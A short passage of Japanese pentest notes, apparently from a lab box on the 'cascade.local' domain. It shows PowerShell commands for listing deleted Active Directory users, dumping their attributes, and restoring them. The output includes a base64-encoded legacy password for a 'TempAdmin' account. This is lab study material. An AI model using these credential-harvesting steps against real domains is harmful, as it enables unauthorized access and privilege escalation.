 c.f.)
- [hacking deram](https://www.hackingdream.net/2021/04/active-directory-penetration-testing-cheatsheet.html)
- [offsec journey](https://notes.offsec-journey.com/active-directory/domain-privilege-escalation)
- [MS official](https://docs.microsoft.com/en-us/powershell/module/activedirectory/restore-adobject?view=windowsserver2022-ps)

``` powershell
PS> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
...
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059 
...
```

見つかったdeleted userのパスワードを抽出できるかもしれないよ：
```
PS> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
                                                                                                                                                 
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
userPrincipalName               : TempAdmin@cascade.local
```

deleted objectを復活させる：

```
PS> Restore-ADObject -Identity 'OBJECT-ID HERE'
```
